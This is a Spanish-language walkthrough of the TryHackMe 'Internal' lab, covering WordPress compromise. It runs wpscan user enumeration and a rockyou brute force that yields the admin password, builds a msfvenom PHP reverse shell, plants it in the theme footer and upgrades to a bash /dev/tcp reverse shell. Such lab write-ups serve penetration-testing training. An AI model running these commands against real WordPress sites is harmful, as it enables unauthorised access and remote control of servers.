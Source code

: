 Maquinas a utilizar **Kali Linux y Internal** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)

  

> [!important] **Continuación de Hacking en Entornos WordPress – Parte 1**

  

- Utilizamos wpscan para hacer enumeración de usuarios y de Plugins. Importante al poner la ruta **no debemos poner** la parte de **wp-login.php.**
    
    ```Bash
    wpscan --url http://10.10.32.70/blog --enumerate u,vp
    ```
    
    ![[Imagenes/image 52.png|image 52.png]]
    
      
    
    > [!important] `-url http://10.10.32.70/blog` → Indica la URL del sitio web objetivo.
    > 
    > `-enumerate u,vp` → Solicita enumerar:
    > 
    > `u` (Usuarios): Obtendrá la lista de usuarios registrados en WordPress, lo que puede ayudar en pruebas de seguridad como ataques de fuerza bruta en credenciales.
    > 
    > `vp` (Plugins vulnerables): Identificará los plugins instalados que tengan vulnerabilidades conocidas.
    
    No nos a encontró ningún Plugin vulnerable pero si un `usuario llamado` `**admin**`**.**
    
      
    
      
    

> [!important] Nos falta la contraseña. en el caso de WordPress debemos utilizar para ello WPScan ya que es una herramienta creada específicamente para WordPress.

  

- Hacemos un ataque de fuerza bruta para encontrar la contraseña.
    
    ```Bash
    wpscan --url http://10.10.11.251/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
    ```
    
    ![[Imagenes/image 1 41.png|image 1 41.png]]
    
      
    
    > [!important] `-url http://10.10.11.251/blog` → Especifica la URL del sitio de WordPress a analizar.
    > 
    > `-passwords /usr/share/wordlists/rockyou.txt` → Utiliza el archivo `rockyou.txt`, un popular diccionario de contraseñas, para intentar encontrar la contraseña correcta mediante fuerza bruta.
    > 
    > `-usernames admin` → Establece "admin" como el usuario objetivo para el intento de acceso.
    
    Ya tenemos la contraseña que coincide con el usuario **admin**.
    
    - Usuario: admin
    - Contraseña: my2boys
    
    ![[Imagenes/image 2 40.png|image 2 40.png]]
    
    ![[Imagenes/image 3 39.png|image 3 39.png]]
    
    ![[Imagenes/image 4 37.png|image 4 37.png]]
    

  

- Una vez aquí nuestro **objetivo** debe ser como **inyectar un código malicioso en WordPress**. Es decir como editar una platilla (pagina web) para añadir un código malicioso para poder adquirir ejecución remota de comandos en WordPress .
    
    - Nos movemos a la sección **Appearance → Theme Editor**
        
        ![[Imagenes/image 5 36.png|image 5 36.png]]
        
        ![[Imagenes/image 6 34.png|image 6 34.png]]
        
    
      
    
    - Hacemos un clip en Theme Footer
        
        ![[Imagenes/image 7 32.png|image 7 32.png]]
        
        ![[Imagenes/image 8 30.png|image 8 30.png]]
        
          
        
    - En caso de que haya código como es en mi caso lo eliminamos todo.
        
        ![[Imagenes/image 9 27.png|image 9 27.png]]
        

- En un terminal creamos un con msfvenom.
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > wp.php 
    ```
    
    ![[Imagenes/image 10 23.png|image 10 23.png]]
    
    Señalo nuestra IP que he obtenido con `ifconfig`
    
      
    
- Hacemos un cat de wp.php y copiamos su contenido.
    
    ```Bash
    cat wp.php 
    ```
    
    ![[Imagenes/image 11 17.png|image 11 17.png]]
    
      
    
- Pegamos el contenido del archivo malicioso en **Edit Theme** y pulsamos en el botón **Update File.**
    
    ![[Imagenes/image 12 17.png|image 12 17.png]]
    

- En un terminal nos ponemos con netcat a escuchar el puerto 443
    
    ![[Imagenes/image 13 16.png|image 13 16.png]]
    

  

- Refrescamos la pagina principal del WordPress **http://10.10.11.251/blog/** . (Recordemos que que el **Footer** que hemos modificado es básicamente la pagina principal de WordPress). Y ya tenemos acceso remoto a la maquina victima .
    
    ![[Imagenes/image 14 14.png|image 14 14.png]]
    

  

- Establecemos una nueva conexión ya que como sabemos las conexiones creadas con msfvenom duran poco tiempo.

- En **https://www.revshells.com/**
    
    ![[Imagenes/image 15 13.png|image 15 13.png]]
    
    `bash -c "sh -i >& /dev/tcp/10.21.166.149/444 0>&1"`
    
    > [!important] **OJO,** cuidado con el tipo de comillas que se utilizan deben ser las rectas.
    
- Ponemos otro netcat a la escucha en el puerto 444
    
    ![[Imagenes/image 16 10.png|image 16 10.png]]
    

  

- Pegamos el código en la conexión 443 y ya tendremos una conexión estable en el puerto 444.
    
    ![[Imagenes/image 17 8.png|image 17 8.png]]
    
    ![[Imagenes/image 18 6.png|image 18 6.png]]
    

  

> [!important] En caso de que en WordPress exita la opcion de “File Upload” , solo deberíamos subir el archivo malicioso que hemos creado y después llamarlo desde la URL